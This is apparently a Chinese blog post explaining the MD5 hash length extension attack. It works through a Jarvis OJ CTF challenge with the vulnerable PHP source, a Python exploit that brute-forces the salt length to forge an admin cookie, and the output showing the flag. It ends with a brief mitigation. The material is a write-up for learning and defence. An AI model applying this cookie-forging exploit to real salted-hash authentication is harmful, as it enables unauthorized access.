 ```yaml
---
title: hash长度扩展攻击
copyright: true
date: 2018-08-13 19:29:04
tags: [密码学]
categories: 密码安全
---
```

# 简介
`hash长度扩展攻击`主要指对类似MD5算法的hash算法攻击。当一个程序有类似`if(input1 == md5(salt+input2)){}`的逻辑并且能获得一次`md5(salt+input2)`的hash值的时候，n那么这个程序就容易受到`hash长度扩展攻击`。
# 分析原理
这种针对哈希算法的攻击当然与算法有关。这里通过MD5算法来分析这种攻击方式。
## MD5算法
MD5是一种消息摘要算法，它的计算过程不可逆。它主要通过以下步骤来计算最后的hash值：
1. 填充。计算传入的消息文本`text`的长度（单位：bits），看它除以512的余数是否为448。等于则将填充前的长度（单位：bits）填充到消息文本的末端（占64bits）。否则，填充二进制1到消息文本末端，之后填充二进制0直到最后消息的长度除以512的余数为448，再将填充前的长度（单位：bits）填充到消息文本的末端（占64bits）。
2. 分组。由于第一步的填充消息的长度必为512的整数倍，将填充完毕的消息按每组512bits分组。
3. 分组计算。将`A=0x67452301,B=0xefcdab89,C=0x98badcfe,D=0x10325476`作为第一组的链变量，并且每一组进行64步轮换计算，每组计算完成后得到`a,b,c,d`四个32位的整数，将这四个整数分别加上该组的链变量作为下一组的链变量使用。当所有组计算完毕，得到最后的链变量。将链变量级联起来作为最后的结果。
这些就是MD5算法的计算步骤，关于`轮换计算`的算法有点复杂就不写了，网上有。
## 攻击分析
分析MD5算法的第三步可以发现，每组消息的计算结果取决于该组的链变量和该组的消息内容，如果知道了最后一组的链变量和消息内容那么不需要知道前面几组到底是什么就可以计算出最后的消息摘要。这对于类似有`if(input1 == md5(salt+input2)){}`代码逻辑的程序来说是可能绕过盐值而达到判断成立的。因为，我们可以通过在原消息的基础上，扩展一个消息分组出来，然后利用最后一个扩展的消息分组的内容可控性，和原消息的hash值（这能计算出最后一个分组的链变量）来重演最后一个分组的计算过程，进而得到最后的hash值。
# 举个例子
下面举一个例子来说明`hash长度扩展攻击`的利用场景。
这是一道`jarvis oj`平台上的CTF题目`flag在管理员手里`，在web板块。
题目可以读取备份文件`index.php~`
```php
<!DOCTYPE html>
<html>
<head>
<title>Web 350</title>
<style type="text/css">
	body {
		background:gray;
		text-align:center;
	}
</style>
</head>

<body>
	<?php 
		$auth = false;
		$role = "guest";
		$salt = 
		if (isset($_COOKIE["role"])) {
			$role = unserialize($_COOKIE["role"]);
			$hsh = $_COOKIE["hsh"];
			if ($role==="admin" && $hsh === md5($salt.strrev($_COOKIE["role"]))) {
				$auth = true;
			} else {
				$auth = false;
			}
		} else {
			$s = serialize($role);
			setcookie('role',$s);
			$hsh = md5($salt.strrev($s));
			setcookie('hsh',$hsh);
		}
		if ($auth) {
			echo "<h3>Welcome Admin. Your flag is 
		} else {
			echo "<h3>Only Admin can see the flag!!</h3>";
		}
	?>
	
</body>
</html>
```
读源码可以发现，只有当`$_COOKIE["role"]`的反序列化值为`admin`并且`$hsh === md5($salt.strrev($_COOKIE["role"]))`成立才能getflag。这和hash长度扩展攻击的利用场景一致，因为我们能够控制最后一个消息分组的内容，而且程序会在`$_COOKIE["role"]`未定义的时候把一段hash值返回给我们，这样我们能够通过该hash值反计算到最后一个分组的链变量，即最后一个消息分组的内容和链变量都知道了，那么即使不知道盐值也可计算最后的hash值。
需要注意的是，我们传入程序的是两个输入，一个作为消息主体传入另一个作为最后的hash值传入。虽然hash值能准确计算，但是消息主体却是不确定的，因为我们无法得知`salt`的长度，我们就无法计算前一个消息分组究竟要怎么填充，也就无法得到准确的消息主体了。所以这一题需要爆破`salt`的长度。下面是exp
```python
#coding=utf8
from myhash import *
import requests
import urllib

url = "http://web.jarvisoj.com:32778/"
tmp_hsh = "3a4727d57463f122833d9e732f94e4e0"
#爆破
for i in xrange(1,20):
    p = 's:5:"admin";'[::-1]
    poc = 's:5:"guest";'
    poc = md5_fill('x'*i+poc[::-1]).lstrip('x'*i)+p
    poc = poc[::-1]
    poc = urllib.quote(poc)
    tmp = hash_split(tmp_hsh)
    m = MD5(p,*tmp)
    s = m.md5(512+len(p)*8)
    headers = {"Cookie":"role={};hsh={}".format(poc,s)}
    r = requests.get(url,headers=headers)
    if r.text.find("Only Admin") == -1:
        print r.text
        print i
        break
    else:
        print 'No.'
```
结果
```
> python poc.py
No.
No.
No.
No.
No.
No.
No.
No.
No.
No.
No.
<!DOCTYPE html>
<html>
<head>
<title>Web 350</title>
<style type="text/css">
        body {
                background:gray;
                text-align:center;
        }
</style>
</head>

<body>
        <h3>Welcome Admin. Your flag is PCTF{H45h_ext3ndeR_i5_easy_to_us3} </h3>
</body>
</html>

12

```
这里的`myhash`是我自己写的`MD5`算法，便于扩展攻击。可以在我的[github](https://github.com/r00tnb/pylibs)上找到。
# 预防
使用`md5(salt+hash(input))`的方式来使消息主体不可控。